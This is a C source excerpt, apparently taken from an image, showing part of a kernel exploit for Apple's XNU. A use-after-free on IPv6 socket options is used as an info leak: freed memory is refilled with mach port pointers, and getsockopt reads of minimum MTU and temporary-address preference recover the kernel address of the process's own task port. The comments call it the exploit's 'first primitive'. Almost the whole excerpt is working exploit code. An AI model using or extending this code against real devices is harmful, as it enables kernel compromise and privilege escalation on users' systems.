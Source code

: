 ```c
    return getsockopt(sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, minmtu, &size);
}

int get_prefertempaddr(int sock, int *prefertempaddr) {
    socklen_t size = sizeof(*prefertempaddr);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_PREFER_TEMPADDR, prefertempaddr, &size);
}

// first primitive: leak the kernel address of a mach port
uint64_t find_port_via_uaf(mach_port_t port, int disposition) {
    // here we use the uaf as an info leak
    int sock = get_socket_with_dangling_options();
    
    for (int i = 0; i < 0x10000; i++) {
        // since the UAFd field is 192 bytes, we need 192/sizeof(uint64_t) pointers
        mach_port_t p = fill_kalloc_with_port_pointer(port, 192/sizeof(uint64_t), MACH_MSG_TYPE_COPY_SEND);
        
        int mtu;
        int pref;
        get_minmtu(sock, &mtu); // this is like doing rk32(options + 180);
        get_prefertempaddr(sock, &pref); // this like rk32(options + 184);
        
        // since we wrote 192/sizeof(uint64_t) pointers, reading like this would give us the second half of rk64(options + 184) and the fist half of rk64(options + 176)
        
        /*  from a hex dump:
         
         (lldb) p/x HexDump(options, 192)
         XX XX XX XX F0 FF FF FF  XX XX XX XX F0 FF FF FF  |  ................
         ...
         XX XX XX XX F0 FF FF FF  XX XX XX XX F0 FF FF FF  |  ................
                    |-----------||-----------|
                     minmtu here prefertempaddr here
         */
        
        // the ANDing here is done because for some reason stuff got wrong. say pref = 0xdeadbeef and mtu = 0, ptr would come up as 0xffffffffdeadbeef instead of 0x00000000deadbeef. I spent a day figuring out what was messing things up
        
        uint64_t ptr = (((uint64_t)mtu << 32) & 0xffffffff00000000) | ((uint64_t)pref & 0x00000000ffffffff);
        
        if (mtu >= 0xffffff00 && mtu != 0xffffffff && pref != 0xdeadbeef) {
            mach_port_destroy(mach_task_self(), p);
            close(sock);
            return ptr;
        }
        mach_port_destroy(mach_task_self(), p);
    }
    
    // close that socket.
    close(sock);
    return 0;
}

int main(int argc, char *argv[], char *envp[]) {
    // IOSurface_init();

    uint64_t self_port_addr = find_port_via_uaf(mach_task_self(), MACH_MSG_TYPE_COPY_SEND);
    INFO("our task port: 0x%llx\n", self_port_addr);

    return 0;
```